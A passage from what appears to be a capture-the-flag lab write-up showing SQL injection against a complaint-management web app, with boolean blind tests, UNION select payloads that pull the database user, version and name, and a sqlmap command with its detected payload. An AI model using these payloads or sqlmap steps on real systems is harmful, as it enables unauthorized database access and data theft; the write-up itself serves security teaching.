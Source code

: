 ![image-20220425160236378](https://0xdfimages.gitlab.io/img/image-20220425160236378.png)

When I change it to `8335=8336`, it returns a 200, but with an error:

![image-20220425160329144](https://0xdfimages.gitlab.io/img/image-20220425160329144.png)

So any boolean question that an attacker wants to ask can be asked inside the `()`.

#### SQLI #2

`42968.txt` shows a similar issue, this time in

```

http://192.168.1.104/view.php?mod=admin&view=repod&id=plans

```

It also shows using `sqlmap` to exploit. This exploit is claiming to also be blind injection. On visiting that URL, there’s a table of orders (it says “Admin View”, even though I’m still a customer role):

![image-20220425160653291](https://0xdfimages.gitlab.io/img/image-20220425160653291.png)

Putting a `'` at the end of the url after `plans` leads to an error:

![image-20220425160740620](https://0xdfimages.gitlab.io/img/image-20220425160740620.png)

It’s clearly trying to escape `'` with backslash. However, what if I try UNION without a `'`? Changing `id` to `id=plans UNION select 1` returns a different error:

![image-20220425160849674](https://0xdfimages.gitlab.io/img/image-20220425160849674.png)

That’s a good indication of UNION injection. I’ll try adding columns until I get to `id=plans UNION select 1,2,3,4,5`:

![image-20220425160948859](https://0xdfimages.gitlab.io/img/image-20220425160948859.png)

There’s a new row on the bottom. I can’t use quotes (single or double), so that makes this trickier, but still doable. I can get things like the current user, the MySQL DB version, and the current database with `id=plans union select 1,user(),version(),database(),5`:

![image-20220425165339436](https://0xdfimages.gitlab.io/img/image-20220425165339436.png)

#### sqlmap

Given that both seem like a pain to do, I’ll turn to `sqlmap`. With the hope of potentially finding the UNION injection, I’ll revisit the URL from #2 above, `http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans`, and then in Burp, find that request and right-click and “Copy to File”.

Then I’ll start `sqlmap`. Because I want it to focus on the UNION injection, I’ll give it `--technique U`:

```

oxdf@hacky$ sqlmap -r view.php-request -p id --batch --technique U
...[snip]...
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 19 HTTP(s) requests:
---
Parameter: id (GET)
    Type: UNION query
    Title: Generic UNION query (NULL) - 5 columns
    Payload: mod=admin&view=repod&id=plans UNION ALL SELECT NULL,NULL,NULL,CONCAT(0x716b626b71,0x4d6e48486a5148534d617a767650764754777a476a4e45615761746245506c667571654a7a49446e,0x7170716271),NULL-- -
---
```
